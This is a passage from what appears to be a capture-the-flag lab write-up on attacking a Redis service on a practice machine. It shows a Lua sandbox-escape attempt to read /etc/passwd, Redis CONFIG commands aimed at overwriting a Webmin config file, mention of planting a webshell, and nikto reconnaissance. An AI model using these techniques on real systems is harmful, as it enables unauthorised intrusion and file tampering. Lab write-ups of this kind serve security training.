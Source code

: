 Trying a LUA sandbox escape also does not work?

```
EVAL "dofile('/etc/passwd')" 0
```

It returns the following error:

```
(error) ERR Error running script (call to f_afdc51b5f9e34eced5fae459fc1d856af181aaf1): @enable_strict_lua:15: user_script:1: Script attempted to access nonexistent global variable 'dofile'
```

Next try to overwrite a MiniServ config file?

```
config set dir /etc/webmin/
config set dbfilename miniserv.conf
save
```

But this just returns a generic `ERR`??? Not sure where to go from here besides a bruteforce to find the directory being served for MiniServ to try and add a webshell too...

---

Found out the original `masscan` scan missed 2 ports (TCP 80 & TCP 22)... Always good to run a re-scan!

----

It looks like TCP 80 is open on the target as well. Start the following web scanner:

```bash
nikto -h http://10.10.10.160/ -C all --maxtime=120s --output=nikto.80.txt
```

![nitko2](./postman/nitko2.png)

Browse to the site manually:

```
firefox http://10.10.10.160/
```
